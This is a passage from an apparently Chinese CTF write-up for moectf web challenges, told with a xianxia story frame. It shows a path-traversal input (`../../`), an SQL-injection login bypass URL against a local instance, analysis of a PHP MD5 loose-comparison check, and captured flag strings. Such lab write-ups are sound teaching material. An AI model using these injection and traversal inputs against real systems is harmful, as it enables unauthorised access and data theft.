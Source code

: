 > 汝不过侥幸得势之鄙夫，安敢窃据S级之位，与吾horrible并列？徒惹人笑！可敢于三日之后，午时三刻，斗法台上一决高下？届时，当众碾碎汝之虚名，令汝知晓何谓云泥之别！——天衍阁·horrible 敕令！

可以自由查看网页文件，提示的“文件穿梭技法”即为`../`，我们输入`../../`看到了`flag`文件。

```
moectf{@ll-1NpuT-ls_M4L1ClOUs4d84c9a3}
```

## **06 第六章 藏经禁制？玄机初探！**

> "九重玄机锁..."K皇沉吟，"此乃'天衍真言术'的入门考验！所谓玄机禁制，实则是以特殊'真言'构筑的规则牢笼——在凡俗界，称之为'数据库'；其破解之道，名为'注入之术'！"

典型的`sql`注入，用万能密码即可（不过要先查看一下传递的参数）。

```
http://127.0.0.1:20322/?username=&password=' OR '1'='1' --
```

```
moectf{wEICom3_to_sq1-1NJECTloN!l12a9c353}
```

## 07 第七章 灵蛛探穴与阴阳双生符

> "此乃守阁傀儡布下的警戒网。"K皇提醒，"专捕钻洞宵小。需以'灵蛛探穴术'与其共鸣，方可通过。"

查看`/robots.txt`，包含爬虫信息。

```
User-agent: *
Disallow: /flag.php
```

访问`flag.php`，需要`php`代码审计。

```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag;
```

代码中使用的是`!=`（松散比较），而不是`!==`（严格比较）。在PHP中，松散比较会进行类型转换。我们可以利用这一点，传递两个字符串，它们不是有效的MD5哈希，但被松散比较认为是相等的。

构造`payload`：
